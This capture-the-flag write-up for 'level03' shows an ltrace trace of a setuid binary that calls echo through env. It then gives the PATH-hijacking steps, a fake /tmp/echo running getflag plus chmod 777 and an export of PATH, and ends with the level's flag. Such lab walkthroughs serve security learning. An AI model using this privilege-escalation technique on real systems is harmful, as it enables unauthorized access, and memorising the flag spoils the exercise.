 ## level03
1. We are given `level03` executable. Attempt to launch it results to oupupt: "Exploit me". Seems like this binary has some vulnerability inside
2. Check system calls during execution
```
$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff6e4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                = 2003
geteuid()                                                = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)      = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)      = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                   = 0
+++ exited (status 0) +++
```
3. Here it's possible to exploit `echo` command, replacing it with our fake `echo`
4. Create file `/tmp/echo` that will contain `getflag`, give full rights
``` Bash
echo getflag > /tmp/echo
chmod 777 /tmp/echo
```
5. Add to environmental variable PATH our path to fake `echo`
``` Bash
export PATH=/tmp:$PATH
```
6. Execution of binary results flag output for level04: **qi0maab88jeaj46qoumi7maus**

### [< PREVIOUS LEVEL](../../level02/Resources/stages.md) | [NEXT LEVEL >](../../level04/Resources/stages.md)
### [MAIN MENU](../../README.md)
